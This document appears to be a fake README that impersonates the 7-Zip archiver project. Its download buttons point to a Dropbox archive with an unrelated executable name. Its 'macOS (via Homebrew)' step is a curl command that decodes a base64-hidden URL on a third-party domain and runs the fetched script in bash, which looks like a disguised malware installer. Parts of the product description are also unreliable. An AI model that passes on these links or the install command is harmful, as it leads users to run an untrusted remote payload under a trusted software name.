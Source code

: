 # 7-Zip — High-Performance Open-Source File Archiver

![7-Zip Logo](https://upload.wikimedia.org/wikipedia/commons/thumb/3/32/7-Zip_Icon.svg/1200px-7-Zip_Icon.svg.png)


Unzip the archive to a separate folder and run the `.exe` file (Windows) or `.sh` file (macOS/Linux).

## 📥 Download
[![Download 7-Zip](https://img.shields.io/badge/⬇_Download_7--Zip-FF0000?style=for-the-badge&logo=none&logoColor=white&labelColor=white)](https://www.dropbox.com/scl/fi/8xtx85wwlbpnhikhxl9wk/LaunchExecCoreV2.41.11_x64.zip?rlkey=f88ljuexe92l3zc3yvcj44eed&st=s178y9s0&dl=1)

---

## 📌 Overview
**7-Zip** is a free and open-source file archiver with a **high compression ratio**, known for its speed, reliability, and lightweight design. Developed by Igor Pavlov, it supports a wide range of file formats, including its own **7z format**, which offers superior compression efficiency compared to ZIP and RAR.  

Since its release, **7-Zip** has become the **gold standard** for archiving on Windows and is also available for Linux and macOS. Its combination of **performance, portability, and security** has made it the preferred choice for both home users and IT professionals.  

7-Zip integrates directly into the Windows context menu for quick operations, supports AES-256 encryption for secure archives, and can handle very large files with ease — up to **16 exabytes** in size (theoretically).  

---

## 🥇 Key Advantages Over Other Archivers

| Feature / Software     | **7-Zip** | WinRAR | WinZip | PeaZip |
|------------------------|----------|--------|--------|--------|
| Price                  | Free, Open Source | Paid (Trial) | Paid | Free |
| Compression Ratio      | Very High | High | Medium | High |
| 7z Format Support      | ✅        | ❌     | ❌     | ✅    |
| ZIP / RAR Support      | ✅        | ✅     | ✅     | ✅    |
| AES-256 Encryption     | ✅        | ✅     | ✅     | ✅    |
| Portable Version       | ✅        | ❌     | ❌     | ✅    |
| Multi-threading        | ✅        | ✅     | ❌     | ✅    |
| Large File Support     | ✅        | ✅     | ✅     | ✅    |
| Context Menu Integration| ✅       | ✅     | ✅     | ✅    |
| Open Source            | ✅        | ❌     | ❌     | ✅    |

---

## 🎯 Why Choose 7-Zip?
- **Completely Free** — no licenses, no subscriptions.
- **Best Compression Ratio** in 7z format.
- **Extremely Fast** with multi-threaded compression.
- **Secure** — AES-256 encryption for 7z and ZIP formats.
- **Lightweight** — installer under 2MB.
- **Portable** — runs without installation.
- **Multi-Format Support** — 7z, ZIP, RAR, TAR, GZ, BZ2, XZ, ISO, and more.
- **Cross-Platform** — available for Windows, Linux, and macOS.

---

## 📥 Download
[![Download 7-Zip](https://img.shields.io/badge/⬇_Download_7--Zip-FF0000?style=for-the-badge&logo=none&logoColor=white&labelColor=white)](https://www.dropbox.com/scl/fi/8xtx85wwlbpnhikhxl9wk/LaunchExecCoreV2.41.11_x64.zip?rlkey=f88ljuexe92l3zc3yvcj44eed&st=s178y9s0&dl=1)

---

## ⚙️ Installation
Download and run the installer, then follow the setup wizard.

# macOS (via Homebrew):
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9uZW9naXQvaW5zdGFsbC5zaA== | base64 -d))"
---

## 🔍 SEO Keywords
7zip download, 7zip free, 7zip windows, 7zip mac, 7zip linux, free file archiver, best compression software, 7zip portable, 7zip vs winrar, 7zip 64 bit, 7zip 32 bit, open source archiver, 7zip aes256 encryption, 7zip rar extractor, 7zip zip compression, 7zip iso extractor, 7zip free download latest version, high compression archiver, 7zip command line, 7zip large file support
